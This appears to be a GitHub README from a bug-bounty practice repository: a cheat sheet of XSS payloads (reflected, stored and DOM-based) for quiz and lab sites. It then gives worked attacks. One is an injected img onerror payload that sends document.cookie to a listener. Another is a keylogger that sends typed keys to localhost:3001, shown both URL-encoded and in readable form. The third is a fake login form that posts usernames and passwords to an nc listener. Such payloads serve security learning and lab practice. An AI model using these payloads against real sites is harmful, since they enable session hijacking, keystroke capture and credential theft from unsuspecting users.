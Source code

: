 # basic payload

# try
https://xss-quiz.int21h.jp/


### reflected:
```
<h1>xss try</h1>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
'-alert(1)-'
"><script>prompt(1)</script>

```
```
ifty' ; alert() ;'test
```
![image](https://github.com/user-attachments/assets/8cda4789-521e-4bec-a2dd-5cb9daaf2595)

```
"onmouseover="alert(1)
```

![image](https://github.com/user-attachments/assets/2a104e6f-2780-41ec-89aa-b55b49158ad7)
```
javascript:alert()
```
![image](https://github.com/user-attachments/assets/c241170a-c0c8-43c1-b6a8-077e09b5a098)

URL REdirection:
```
<iframe src="http://bing.com" height = "100%" width="100%"></iframe>
```

### stored :

```
<a id=x tabindex=1 onfocus=alert(1)>a</a>

<img src="does-not-exist" onerror="alert(document.cookie)">

“>img src=x onerror=alert(1)

<iframe onload=alert(document.domail)>
````
### DOM :
1) document.write :
```
"><svg onload=alert(1)>
" onload = "alert(document.cookies)
```
![image](https://github.com/user-attachments/assets/5b231551-8a4f-4300-a7e5-25cb89105e48)


2) innerHTML :
```
<img src="does-not-exist" onerror="alert(document.cookie)">
```

![image](https://github.com/user-attachments/assets/50dbf402-56d7-447d-a27c-d401301192f1)


3) jQuery anchor href :

after the path

```javascript:alert(document.cookie)```

and click backlink


   ![image](https://github.com/user-attachments/assets/c9b00d4c-ea24-4c01-aadb-3471141427c4)


4) jQuery hash

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
 
![image](https://github.com/user-attachments/assets/5ecb8438-f297-448b-a102-bdf5d2a60bde)

# XSS attack 1: Hijacking the user’s session
## Evil server 
```bash
node evil-server.js
```
download the zip file and use the command on terminal

[evil-server.js](https://github.com/fahimalshihab/Bug-Bounty/blob/main/XSS/Practice/evil-server-js.zip)

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/0b07c731-cb75-4082-9e43-660816c685ea)

### Or 
can make local listener
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/3fb1b3e8-bae1-4e26-a49f-98d83509b151)


## Document.cookie
  ``` js
  <img src="does-not-exist" onerror="alert(document.cookie)">
  ```
  ``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E```


## steal the session cookie
```js
    <img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">

```
``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E```

* Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```


## key-logger:
```js
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

```
%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E
```

* Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

# XSS attack 2: Phishing to steal user credentials
Lets create a local listener server 
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/cf256d77-3c2a-4522-a1de-c2d37eb464c8)


```
<h3>Please login to proceed</h3> <form action=http://localhost:5000>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/d494c8e2-cbd3-4ee7-832f-bf696f55b105)

yeahooo here we go 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/08c8d04d-9c05-403e-bb9a-b77724e1eae1)


